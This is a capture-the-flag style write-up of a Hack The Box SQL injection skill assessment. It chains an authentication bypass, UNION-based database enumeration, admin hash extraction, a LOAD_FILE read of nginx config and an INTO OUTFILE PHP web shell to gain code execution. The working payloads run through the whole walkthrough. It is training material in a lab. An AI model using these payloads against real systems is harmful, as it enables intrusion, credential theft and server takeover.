



+++
title = 'SQL Injection Skill Assessment | CWES Path on HTB'
date = '2026-01-11T01:53:01-04:00'
draft = false
slug = 'sql-injection-skill-assessment'
description = 'Chaining SQL injection bypass, UNION-based enumeration, and INTO OUTFILE to gain RCE on a web application.'
tags = ["Web", "HTB", "SQLi"]
difficulty = 'medium'
+++

We are tasked with a web application and assigned to perform a penetration test and exploit SQL injection vulnerability. Let's goo and explore.

In first step after visiting the application we got a bad request.



The error appears in the proxy: 400 The plain HTTP request was sent to HTTPS port

So use `https://` schema before the IP.

After visiting the webapp we will find that the app has two pages login and create account.

I made a request to login to see the request and the response.

The request is sent via POST to `/api/login.php` and it redirects as to GET `/login.php?e=username+or+password+is+wrong` after entering invalid credentials.

I tried to test the username and password with `'` and `"` and some SQLi payloads but none was working --> all of them gave us `username+or+password+is+wrong`

So I decided to explore create account functionality:



We have 4 parameters to fill, I entered some random parameters to see if there are any constraints and WE HAVE.

And we have a rabbit hole endpoint too `POST /api/checkUsername.php` with a username parameter which the request sent after we typed any username and I tried to test SQLi in the parameter but none is working too.

Backing again to the constraints:

- Password must match: invalid password. password must be at least 8 characters long, including at least one letter, number and special character
- Invitation code must match: Invalid invitation code. Please ensure it follows this format: 4 letters – 4 letters – 4 numbers (e.g., abcd-efgh-1234).

So let's enter these credentials:

```
username=mmmm
password=MMMMmm1234@
repeatPassword=MMMMmm1234@
invitationCode=mmmm-mmmm-1234
```

The interesting thing after I matched all the constraints, it gives me invalid invitation code, so I tried to bypass this by typing `mmmm-mmmm-1234'+OR+'1'='1`, the account created successfully.

Let's login and explore the app.



We can send messages to admin, and we can search for the messages sent.

The search functionality is a potential to be vulnerable to SQLi because it searches for messages in a database so let's test it.

As I said, if we write a `'` in the search parameter we will get an error.

Just test now with `' OR 1=1-- -` and you will get --> 200 OK

Now our attack should be UNION Based to get the admin password.

## Column Count Enumeration

The first step, we should get the number of columns using:

```sql
sd'+UNION SELECT NULL-- -
```

Adding NULL until 7 or 8 times and each time I get 500 internal error so I knew that the query is missing something.

After some trying I tried `sd')` and NULL until I get 200 OK after 4 so the columns are 4.

```sql
sd')+UNION SELECT NULL,NULL,NULL,NULL-- -
```

## Database Enumeration

The next step is to make a database enumeration to know the databases and the tables exist to choose the right one so I retrieved it from `INFORMATION_SCHEMA.TABLES`

```sql
sd') UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES-- -
```

Databases found: `information_schema`, `performance_schema`, `chattr`

The first two databases exist by default so we ignore it, let's explore the tables and columns in `chattr`.

```sql
sd') UNION select 1,COLUMN_NAME,TABLE_NAME,4 from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='chattr'-- -
```

We got `Users` table so let's read the username and the password in Users table and get the admin password hash:

```sql
sd') UNION select 1,username,password,3 from Users WHERE username='admin'-- -
```

**THE FIRST QUESTION DONE**

## Finding Web Root Path

The second question is to know the web root path.

We know that from Burp Suite that the webserver used in this question is nginx.

To know the root path we should explore the configuration files, so I searched online for the paths of the configuration files in nginx, so I found:

- `/etc/nginx/nginx.conf`
- `/etc/nginx/sites-enabled/default`

Now we can read these files using `LOAD_FILE("/file/path")` function.

I read both and found the root at `/etc/nginx/sites-enabled/default`

```sql
sd') UNION SELECT 1,2,LOAD_FILE("/etc/nginx/sites-enabled/default"),4-- -
```

## Gaining RCE via INTO OUTFILE

The last question requires us to take a shell and gain RCE to read the flag in the system.

We need to write a PHP shell in the database to can access it, we can achieve this using `INTO OUTFILE 'rootpath/shell.php'` and upload our shell.

The payload is like:

```sql
sd') UNION SELECT "","<?php system($_GET['cmd']); ?>","","" INTO OUTFILE '/var/www/(rootpath)/shell.php'-- -
```

Then access the shell in `https://IP:PORT/shell.php?cmd=.`

List the files in the system using `ls -al /`.

You will find the flag at `/flag_XXXXXX.txt`

**JUST READ IT AND DONE.**
